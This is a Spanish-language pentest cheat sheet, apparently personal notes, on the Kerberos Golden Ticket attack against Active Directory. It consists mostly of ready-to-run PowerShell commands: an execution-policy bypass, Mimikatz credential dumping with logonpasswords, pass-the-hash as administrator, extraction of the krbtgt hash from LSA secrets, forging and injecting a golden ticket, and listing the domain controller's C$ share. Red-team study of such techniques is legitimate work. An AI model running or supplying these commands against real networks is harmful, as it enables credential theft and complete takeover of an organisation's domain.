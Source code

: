 # Golden Ticket 

Tags: #AD #Window #Powershell 

Es un ataque de ciberseguridad malicioso donde un atacante gana acceso ilimitado a un dominio de una organización, accesando a la data almacenada en AD. Explota una vulnerabilidad en el protocolo de autenticacion de Kerberos, donde es usado para acceder al AD, permitiendo al atacante un 'bypass' normal. 

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM hash, SID de todos los usuarios asi como el del 'Admin'

# Ahora haremos el Pass The Hash 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<NTLM-Hash> /run:powershell.exe"' 
```

```powershell 
# En la nueva consola que se abre con el comando anterior vamos a extraer hash de kerberos de las password de las cuentas
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DomainController> # Muestra info de los secretos de LSA y copiamos el NTLM de 'krbtgt'
```

```powershell
# Regresamos a la primer consola, generamos e inyectamos el 'Golden Ticket'
❯ Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:12345 /krbtgt:<krbtgt> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'  # Generamos e inyectamos nuestro 'Golden Ticket' 

❯ klist                                      # Muestra info del ticket 
	❯ klist purge                           # Si hacemos mal el ticket los podemos eliminar asi 
❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```